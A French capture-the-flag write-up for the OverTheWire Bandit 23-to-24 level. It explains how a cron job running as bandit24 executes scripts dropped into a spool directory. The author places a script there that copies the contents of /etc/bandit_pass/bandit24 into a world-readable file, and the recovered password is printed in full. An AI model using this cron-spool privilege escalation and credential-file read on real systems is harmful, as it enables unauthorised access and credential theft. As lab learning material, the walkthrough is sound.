 ## Over-The-Wire -writeup-
### Bandit23 (bandit23@bandit.labs.overthewire.org)

---
#### Etape 1

Une tache est encore automatisée par **conf**, dans `/etc/cron.d/`. Suprise, le fichier cron s'appelle: **cronjob_bandit24**. Regardons son contenu:

```console
bandit23@bandit:~$ cat /etc/cron.d/cronjob_bandit24 
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
```

Il exécute chaque minute le script `/usr/bin/cronjob_bandit24.sh`. Alors examinons le aussi !

```console
bandit23@bandit:~$ cat /usr/bin/cronjob_bandit24.sh 
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname
echo "Executing and deleting all scripts in /var/spool/$myname:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
	echo "Handling $i"
	timeout -s 9 60 ./$i
	rm -f ./$i
    fi
done
```

Le script va dans le répertoire `/var/spool/bandit24` car la variable `myname` prend la valeur `bandit24`.  
*Car la tâche **cron** est éxécutée par *bandit24*, voir plus haut !*

Ensuite, comme le dit la ligne *echo*, le script exécute chaque scripts dans le dossier en question, puis les supprimes.

---
#### Etape 2

Il va falloit créer un script dans `/var/spool/bandit24`, qui du coup sera exécuté avec les privilèges de **bandit24**, nous permettant de récupérer son mot de passe.  
On se place dans un dossier temporaire, et on **crée notre script** ainsi qu'un fichier vide qui recevra le mot de passe:
`touch script.sh`
`touch outputPass`

---
#### Etape 3

Création du script:

```console
bandit23@bandit:/tmp/visages$ printf '#!/bin/bash\n\ncat /etc/bandit_pass/bandit24 >> /tmp/visages/output' > script.sh
```

*NB: La fin de la commande `> script.sh` insère la commande de *echo* dans le fichier `script.sh`
Voila à quoi le script ressemble *(puisque tout est sur une ligne, et qu'on a rajouté des **\n** qui saute des lignes)*:
```
#!/bin/bash

cat /etc/bandit_pass/bandit24 >> /tmp/visages/output
```

La tâche automatique va exécuter tout les scripts sous `var/spool/bandit24` en tant que **bandit24**.  
Notre script demandera alors d'afficher le mot de passe de **bandit24**, et de le rediriger dans notre fichier /tmp/visages/**output** !

---
#### Etape 4

Maintenant il faut **rendre notre script, et notre fichier output exécutables !**. Sinon **bandit24** ne pourra pas exécuter / écrire dans nos fihchiers.  
Pour cela, on utilise `chmod`:

```console
bandit23@bandit:/tmp/visages$ chmod 777 script.sh 
bandit23@bandit:/tmp/visages$ chmod 666 output
```

---
#### Etape 5

Copier notre script dans `/var/spool/bandit24/` pour qu'il soit exécuté.
> bandit23@bandit:/tmp/visages$ cp script.sh /var/spool/bandit24/

On attend moins d'une minute, et tada !

```console
bandit23@bandit:/tmp/visages$ cat output 
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
```

---
Mot de passe: **UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ**
